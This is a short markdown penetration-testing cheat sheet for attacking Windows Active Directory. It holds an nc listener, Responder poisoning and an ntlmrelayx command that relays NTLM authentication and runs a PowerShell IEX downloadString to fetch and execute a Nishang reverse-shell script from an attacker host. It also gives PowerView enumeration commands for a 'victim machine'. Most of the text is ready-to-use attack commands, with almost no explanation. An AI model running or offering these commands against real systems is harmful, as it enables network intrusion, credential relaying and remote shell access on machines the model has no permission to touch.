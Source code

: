 >> _Python3 Simple Server_
````
python3 -m http.server port
````

>> _Listener_
````
rlwrap nc -nlvp port
````

>> _responder On_
````
responder -I interface -rdw
````

>> _ntlmrelayx Nishang_
````
impacket-ntlmrelayx -tf target-file -c "powershell IEX(New-Object Net.WebClient).downloadString('http://ip:port/PowerShellTcp.ps1')" -smb2support
````
---

> # __Powershell__
- __https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1__
- __https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon__
- __https://www.pentesteracademy.com/course?id=21__
- __https://www.exploit-db.com/docs/english/46990-active-directory-enumeration-with-powershell.pdf__
- __https://www.varonis.com/blog/powershell-for-pentesters/__
- __https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/?view=powershell-7.1__
- __https://gist.github.com/HarmJ0y/3328d954607d71362e3c__

### __Process Architecture__
```Powershell
[Environment]::is64bitoperatingSystem

[Environment]::is64bitprocess

powershell.exe [Environment]::is64bitprocess > output.txt

powershell.exe [Environment]::is64bitprocess > /path/to/file.txt
```

### __Powerview Recon__
> You must first download the PowerView on your machine and then transfer it to the victim machine. Above I have left two links that redirect to the PowerShellMafia github.
```
.\PowerView.ps1
```
```Powershell
Get-NetUser

Get-NetUser "pepe"

Get-NetGroup

Get-NetDomain

Get-NetDomain -Domain "Pepe.com"

Get-NetComputer

Get-NetComputer -Unconstrained

Get-NetComputer –OperatingSystem "os"
```
```Powershell
```